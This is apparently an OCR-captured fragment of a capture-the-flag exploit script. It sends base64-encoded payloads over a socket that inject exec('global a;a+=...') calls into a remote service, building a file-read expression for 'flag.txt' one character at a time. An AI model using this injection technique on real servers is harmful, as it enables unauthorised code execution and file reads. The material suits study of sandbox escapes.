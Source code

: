 ```py

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZiInKX0=") # a += "f"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZyInKX0=") # a += "g"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ieCInKX0=") # a += "x"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz1jJyl9") # a += c
time.sleep(1)
print(con.recv(4096).decode())

################ end name

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKSInKX0=") # a += ")"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZSInKX0=") # a += "e"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZCInKX0=") # a += "d"
time.sleep(1)
print(con.recv(4096).decode())

```